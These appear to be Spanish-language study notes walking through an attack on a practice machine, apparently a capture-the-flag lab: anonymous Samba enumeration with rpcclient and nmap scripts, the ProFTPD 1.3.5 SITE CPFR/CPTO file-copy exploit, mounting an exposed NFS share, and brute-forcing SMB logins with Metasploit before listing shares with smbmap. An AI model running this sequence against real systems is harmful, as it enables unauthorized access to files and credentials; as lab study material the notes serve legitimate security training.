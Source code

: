 - SAMBA también corre por el puerto 445, este protocolo permite la comunicación de sistemas operativos que no sean windows puedan comunicarse con el puerto SMB.

- Escaneamos la maquina victima y nos sale el puerto 445 abierto además de ==SAMBA== .
![[Pasted image 20241221164750.png]]
- En este caso tenemos una maquina Linux con puerto 445 ==SAMBA== abierto para poder comunicarse con Sistemas operativos Windows.
- Como no tenemos credenciales podemos enumerarla con la herramienta ==RPCCLIENT==, utilizando el siguiente comando:
```
rpcclient -U "" -N (IP_VICTIMA)
```
==LO QUE VIENE DESPUES DE -U ES EL USUARIO, PERO LO DEJAMOS BASIO PORQUE NO SABEMOS CUAL ES==
![[Pasted image 20241221165144.png]]
- Como podemos ver nos direcciona una especia de lugar para poder ingresar comandos de ==rpcclient==.
- Debemos conocer 3 comandos que nos van a servir para enumerar y obtener información:
```
srvinfo
```
![[Pasted image 20241221165327.png]]
```
querydispinfo
```
![[Pasted image 20241221165401.png]]
- Aquí encontramos 2 usuarios: ==ken== y ==takeshi==.
	- Ya con esto podemos hacer fuerza bruta.
```
enumdomusers
```
![[Pasted image 20241221165541.png]]
- También es un comando que nos muestra usuarios, por si el comando anterior no nos arroja uno.
- Y si aun no nos arroja uno usamos el siguiente comando con ==nmap==.
```
nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse (IP_VICTIMA)
```
- Este comando nos permite ver directorios ocultos o carpetas que poseen los puertos que tengan ==samba==.
- Tenemos otro puerto 111 Que tiene samba, si usamos el siguiente comando encontramos esto
```
nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount (IP_VICTIMA)
```

![[Pasted image 20250210184010.png]]
- sabemos lo que tiene en la carpeta /van
- Ahora queremos copiar esa carpeta
	- Para copiarlo tenemos que meternos por el puerto 21 donde corre una version ProFTPD 1.3.5. Si investigamos nos saldra que tiene un exploit para copiar archivos.
	- Para eso usamos el siguiente comando:
```
nc (IP_VICTIMA) 21
```
![[Pasted image 20250210184352.png]]
- ==220== nos avisara que la conexión ya esta lista.
- Ahora usamos los siguietenes comandos:
![[Pasted image 20250210184530.png]]
- ==SITE CPFR== --> (COPY FROM) Selecciona el archivo o directorio que se desea copiar.
![[Pasted image 20250210184538.png]]
- ==SITE CPTO== --> (COPIAR A) Especifica la ruta de destino donde se copiará el archivo o directorio.
- Todo esto lo sacamos de un .txt de la maquina.
- Ahora que ya lo copiamos, debemos montar el directorio /var/tmp a nuestra máquina usando el siguiente comando:
```
mkdir /mnt/kenobiNFS
```
- Luego:
```
mount (IP_VICTIMA):/var /mnt/kenobiNFS
```
- Ya montada usamos el siguiente comando:
```
ls -la /mnt/kenobiNFS
```
==NFS es el protocolo utilizado para montar el sistemas de archivos remotos en Linux, se incluye en el nombre para indicar que el directorio está asociado a un montaje NFS.===


- Ahora podemos usar hydra o metasploit para hacer fuerza bruta.
- En este caso vamos a utilizar metasploit, con el siguiente sploit para ==SMB==.
```
use scanner/smb/smb_login
```
![[Pasted image 20241221165830.png]]
- Usamos show options y rellenamos todos los espacios necesarios.
- Ejecutamos.
![[Pasted image 20241221170916.png]]
- Ya tenemos la contraseña.
- Ahora que tenemos la credenciales, vamos ir enumerando recursos compartidos con ==smbmap== con el siguiente comando:
```
smbmap -u '(USUARIO)' -p (PASSWORD) -H (IP_VICTIMA)
```
![[Pasted image 20241221172027.png]]
- Como podemos ver tenemos acceso a ==ken==.
- Entonces agregamos al comando:
```
smbmap -u '(USUARIO)' -p (PASSWORD) -H (IP_VICTIMA) -r (RECURSO_COMPARTIDO)
```
![[Pasted image 20241221172213.png]]
- Y así vamos entrando y revisando información delicada.

deb http://http.kali.org/kali kali-rolling main contrib non-free non-free-firmware